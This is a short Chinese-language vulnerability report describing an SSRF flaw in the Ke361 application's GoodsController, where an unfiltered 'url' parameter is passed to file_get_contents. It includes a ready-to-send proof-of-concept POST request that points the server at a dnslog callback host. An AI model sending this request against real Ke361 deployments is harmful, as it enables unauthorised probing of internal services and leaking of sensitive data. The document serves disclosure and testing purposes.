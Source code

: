 # Ke361 GoodsController.class.php SSRF漏洞

# Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Home/Controller/GoodsController.class.php`

![image-20220518153445715](/images/202205181534788.png)

URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![image-20220518153459466](/images/202205181534535.png)

dnslog接收到请求

![image-20220518153527567](/images/202205181535619.png)

